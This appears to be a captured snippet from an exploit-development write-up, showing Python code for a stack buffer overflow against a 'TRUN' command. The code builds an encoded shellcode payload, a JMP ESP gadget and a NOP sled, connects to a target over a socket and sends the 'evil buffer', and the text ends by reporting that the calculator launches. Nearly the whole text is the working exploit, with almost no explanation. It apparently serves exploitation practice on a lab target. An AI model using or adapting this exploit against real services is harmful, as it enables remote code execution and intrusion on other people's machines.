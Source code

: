 ```python
payload += b"\x81\xc6\xa8\xb4\x22\x6c\x8f\xfb\xb3\xdd\xf3\x9a"
payload += b"\x37\x1c\x20\x7d\x06\xef\x35\x7c\x4f\x12\xb7\x2c"
payload += b"\x18\x58\x6a\xc1\x2d\x14\xb7\x6a\x7d\xb8\xbf\x8f"
payload += b"\x35\xbb\xee\x01\x4e\xe2\x30\xa3\x83\x9e\x78\xbb"
payload += b"\xc0\x9b\x33\x30\x32\x57\xc2\x90\x0b\x98\x69\xdd"
payload += b"\xa4\x6b\x73\x19\x02\x94\x06\x53\x71\x29\x11\xa0"
payload += b"\x08\xf5\x94\x33\xaa\x7e\x0e\x98\x4b\x52\xc9\x6b"
payload += b"\x47\x1f\x9d\x34\x4b\x9e\x72\x4f\x77\x2b\x75\x80"
payload += b"\xfe\x6f\x52\x04\x5b\x2b\xfb\x1d\x01\x9a\x04\x7d"
payload += b"\xea\x43\xa1\xf5\x06\x97\xd8\x57\x4c\x66\x6e\xe2"
payload += b"\x22\x68\x70\xed\x12\x01\x41\x66\xfd\x56\x5e\xad"
payload += b"\xba\xa9\x14\xec\xea\x21\xf1\x64\xaf\x2f\x02\x53"
payload += b"\xf3\x49\x81\x56\x8b\xad\x99\x12\x8e\xea\x1d\xce"
payload += b"\xe2\x63\xc8\xf0\x51\x83\xd9\x92\x34\x17\x81\x7a"
payload += b"\xd3\x9f\x20\x83"

buf = b""
buf += b"TRUN /."
buf += b"A" * offset
buf += esp_gadget        # JMP ESP
buf += NOP * 32
buf += payload
buf += b"D" * (size - offset - 4 - 32 - len(payload))
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

Calc pops successfully:
